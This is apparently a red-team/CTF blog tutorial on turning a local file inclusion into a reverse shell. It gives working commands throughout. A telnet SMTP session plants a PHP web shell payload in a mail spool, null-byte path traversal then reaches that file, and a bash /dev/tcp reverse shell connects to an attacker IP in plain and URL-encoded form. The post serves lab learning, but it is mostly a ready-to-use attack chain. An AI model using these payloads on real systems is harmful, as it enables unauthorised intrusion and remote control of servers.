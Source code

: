 ```yaml
---
layout: post
title:  "Using LFI and SMTP to Get a Reverse Shell"
date:   2020-02-12 08:12:24 +0530
categories: redteam ctf
---
```


Local file inclusion or LFI can be used in many ways to execute remote commands and get a reverse shell injecting commands through 
apache access log or injecting commands through error logs are some of them. This article is little bit different than those techniques
we are going to send the payload through SMTP(mail) and then we are going to execute remote commands.

This image shows the lfi that I have found,

![LFI by burpsuite](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-1.png)

After finding the LFI, next step step is to write the system command on a file which we know the path, In this tutorial I'm going to write 
the system command that we need to execute in the mail folder using smtp protocol. Here are the commands I used to send a mail including the payload 
that we need to execute.

## Send the mail with payload in it

first connect to the smtp port using telnet,
```
telnet 10.10.10.7 25
```
Sending the email with embeded payload in the body,
```
EHLO test.com

VRFY asterisk@localhost
mail from: test.com
rcpt to: asterisk@localhost
data
Subject: This is exploit
<?php echo system($_REQUEST['cmd']); ?>
.
quit
```
now go to burpsuite and access the file "../../../../../../../..//var/mail/asterisk%00"

![exploit saved in the mail](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-2.png)

Yes we successfully exploited the whoami command n the system.

## Getting the reverse shell

For this task I'm using bash reverse shell on linux. Here is the command,
```
bash -i>& /dev/tcp/10.10.14.3/1337 0>&1
```

Then url encode it,
```
bash+-i>%26+/dev/tcp/10.10.14.3/1337+0>%261
```
using a netcat listner we can catch the reverse shell

![Got the reverse shell](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-3.png)


